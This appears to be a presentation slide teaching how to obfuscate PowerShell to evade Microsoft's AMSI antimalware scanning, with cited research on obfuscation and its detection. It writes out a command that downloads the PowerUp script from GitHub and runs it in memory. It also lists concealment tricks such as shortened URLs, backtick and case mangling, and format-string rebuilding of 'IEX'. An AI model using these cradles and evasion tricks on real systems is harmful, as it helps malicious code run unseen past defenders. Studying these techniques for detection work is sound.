

# Obfuscation to bypass AMSI
Antimalware Scan Interface  (AMSI )
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1')
- use aliases: iex instead Invoke-Expression or instead of "(New-Object Net.WebClient).DownloadString()" use iwr
- we can replace urls to link on bitly: "https://bit.ly/1qG1xey"
- input "`" symbol and play  with upper and lower case symbols: `I`N`V`o`k`e`-`E`x`p`R`e`s`s`i`o`N
- use replace and format operations:  iex raplace with   ("{1}{0}" -f'X','IE')
Tools to use:
Invoke-obfuscation

Invoke-Obfuscation work description https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1492186586.pdf
Articles about malvare: https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf
https://www.danielbohannon.com/blog-1/2017/3/12/powershell-execution-argument-obfuscation-how-it-can-make-detection-easier
https://www.blackhat.com/docs/us-17/thursday/us-17-Bohannon-Revoke-Obfuscation-PowerShell-Obfuscation-Detection-And%20Evasion-Using-Science-wp.pdf